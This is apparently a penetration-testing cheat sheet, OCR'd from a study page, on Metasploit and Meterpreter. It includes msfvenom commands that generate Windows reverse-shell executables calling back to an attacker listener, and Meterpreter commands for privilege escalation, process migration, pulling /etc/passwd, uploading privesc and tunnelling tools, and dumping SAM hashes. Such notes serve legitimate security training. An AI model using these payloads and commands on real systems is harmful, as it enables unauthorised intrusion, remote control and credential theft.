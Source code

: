 Meterpreter offers a variety of other interesting post-exploitation modules such as hashdump, which **dumps the contents of the SAM database** or screenshare, which displays the target machine's desktop in real-time.

When Metasploit interacts with a system within a session, it uses a concept named **channels**.

```bash
msfvenom -l payloads --platform windows --arch x64
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe

msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe
```

## Meterpreter Command

### Session

```
help
sysinfo
getuid
idletime
ps
getsystem
migrate 8052
execute -H -f notepad

shell

channel -l
channel -i 1

bg
exit
```

```
lpwd
lcd /home/kali/Downloads
download /etc/passwd
lcat /home/kali/Downloads/passwd
upload /usr/bin/unix-privesc-check /tmp/
upload chisel.exe C:\\Users\\marcus\\chisel.exe
```

### Channel

```
Ctrl + Z
```

## Post-Exploitation with Metasploit

